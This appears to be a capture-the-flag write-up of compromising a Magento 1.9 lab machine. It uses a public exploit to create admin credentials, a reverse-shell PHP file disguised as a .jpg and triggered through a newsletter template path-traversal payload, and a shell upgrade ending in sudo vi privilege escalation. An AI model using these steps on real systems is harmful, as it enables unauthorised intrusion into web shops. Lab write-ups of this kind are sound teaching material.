 
Found in /var/package/Interface_Adminhtml_Default-1.9.0.0.xml that the Magento version is 1.9 which is vulnerable to SQL injection.

Found exploit code at [Magento eCommerce - Remote Code Execution - XML webapps Exploit](https://www.exploit-db.com/exploits/37977).

Code worked with some modifications, dropping us with admin credentials:
```
user: groot
pass: yeet
```

Within the admin app for Magento, I was able to use the following attack named Froghopper:
[Anatomy Of A Magento Attack: Froghopper](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

To execute the attack, I needed to upload a php file that would give me a shell, but to upload it, I had to make the file extension .jpg.  Then upload it as a new category image.
[php-reverse-shell \| pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Then using the "Newsletter" feature of magento, I used the following code, and then previewed it to execute the php script 
```
{{block type='core/template' template='../../../../../../media/catalog/category/<filename>.jpg}}
```

### Got User
I got a shell from this and was able to read the user hash as user www-data.
```
cat /home/haris/user.txt

a448877277e82f05e5ddf9f90aefbac8
```

Now to see how I can do privilege escalation:
```
sudo -l

Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
sudo /usr/bin/vi /var/www/html/*
```

Since I need to run vi in a tty and my reverse shell did not run, I had to get a proper tty via the following command:

``` 
/usr/bin/python3 -c "import pty;pty.spawn('/bin/sh');" 
```

Now I can run vi as sudo:
```
sudo /usr/bin/vi /var/www/html/**
```
